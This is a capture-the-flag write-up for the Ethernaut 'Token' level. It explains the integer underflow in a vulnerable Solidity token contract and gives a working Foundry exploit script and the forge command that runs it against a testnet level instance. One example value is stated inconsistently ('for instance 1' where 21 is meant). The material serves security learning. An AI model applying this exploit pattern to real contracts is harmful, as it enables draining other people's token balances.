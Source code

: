 ## Token

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/b4985e6e-fbb2-4e7c-ac7b-2e249f857bb4">
</p>


<br>


### tl; dr

<br>


* in this challenge, we explore a classic vulnerability in both web2 and web3 security: integer overflows.


<br>


```solidity
contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```


<br>

---

### discussion

<br>

 * programming languages that are not memory-managed can have their integer variables overflown if assigned to values larger than the variables' capacity limit.
    - we will use this trick to overflow a `uint` and bypass the `require()` check of `Token()`'s `transfer()` function:

<br>

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

<br>

 * whenever we add `1` to a variable's maximum value, the value wraps around and decreases.
    - for example, an (unsigned) `uint8`, has the maximum value of `2^8 - 1 = 255`. if we add `1` to it, it becomes `0`. same as `2^256 - 1 + 1`.
    - symmetrically, if we subtract a value larger than what the variable holds, the result wraps around from the other side, increasing the variable's value. this is our exploit.

<br>

* if we pass a `_value` to `transfer()` that is larger than `20`, for instance `1`, `balances[msg.sender] - _value` results on `uint256(-1)`, which is equal to a very large number, `2^256 – 1`.


<br>

* **[in solidity, this type of integer overflow used to be a vulnerability until version `0.8.0`](https://solidity-by-example.org/hacks/overflow/)**.
    - this is why contracts were advised to use **[OpenZeppelin' `SafeMath.sol`](https://docs.openzeppelin.com/contracts/4.x/utilities#math
)** whenever they performed integer operations.
    - in newer versions, if the code is not performing these operations, we can use `unchecked` to save gas.

<br>



----

### solution in solidity

<br>

* since this challenge is so easy, we skip tests and go direct to the submission script, `script/05/Token.s.sol`:

<br>

```solidity
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import {Token} from "src/05/Token.sol";

contract Exploit is Script {

        address levelInstance = 0x1e8407c9A9f3D689E8f48C63eaF04fe0bd549629;
        Token level = Token(levelInstance);        
        
        function run() external {

            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
            level.transfer(0x0000000000000000000000000000000000000000, 21);
            vm.stopBroadcast();
    }
}
```

<br>

* running with:

<br>

```shell
> forge script ./script/05/Token.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

---

### 3-lines solution directly in the console

<br>

<p align="center">
<img width="600" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c2d2db5c-feb8-469d-91b6-5b852cc5f011">
</p>

<br>


----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



